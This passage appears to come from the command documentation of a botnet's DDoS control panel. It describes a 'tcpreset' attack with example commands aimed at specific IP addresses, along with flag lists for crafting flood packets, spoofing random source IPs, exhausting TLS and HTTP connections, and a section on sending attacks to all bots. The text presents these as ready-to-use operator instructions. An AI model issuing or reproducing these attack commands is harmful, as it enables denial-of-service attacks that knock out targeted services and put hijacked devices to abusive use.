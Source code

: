 #### 12. **TCP Reset** (`tcpreset`)
```
tcpreset <target> <duration> [flags]
```
**Example:**
```
tcpreset 50.7.22.221 20 dport=80 reset=1
tcpreset 192.168.1.1 30 len=1024 dport=443
```

## Available Flags/Options

### Layer 4 Flags
- `len=<bytes>` - Packet size (default: 512)
- `rand=<0|1>` - Randomize data (default: 1)
- `ttl=<1-255>` - TTL value (default: 255)
- `sport=<port>` - Source port (default: random)
- `dport=<port>` - Destination port (default: random)
- `tos=<value>` - TOS field value
- `ident=<value>` - ID field value
- `df=<0|1>` - Don't Fragment bit
- `urg=<0|1>` - URG bit
- `ack=<0|1>` - ACK bit
- `psh=<0|1>` - PSH bit
- `rst=<0|1>` - RST bit
- `syn=<0|1>` - SYN bit
- `fin=<0|1>` - FIN bit
- `seqnum=<value>` - Sequence number
- `acknum=<value>` - ACK number
- `source=<ip>` - Source IP (255.255.255.255 for random)

### Layer 7 Flags
- `domain=<url>` - Target domain/URL
- `method=<GET|POST>` - HTTP method
- `path=<path>` - HTTP path (default: /)
- `postdata=<data>` - POST data
- `conns=<number>` - Number of connections
- `tls=<0|1>` - SSL/TLS exhaustion

### Special Flags
- `minlen=<bytes>` - Minimum packet length
- `maxlen=<bytes>` - Maximum packet length
- `payload=<data>` - Custom payload
- `repeat=<number>` - Number of repetitions
- `reset=<0|1>` - TCP reset flag

## Bot Targeting

### Target All Bots
```
<method> <target> <duration> [flags]
```

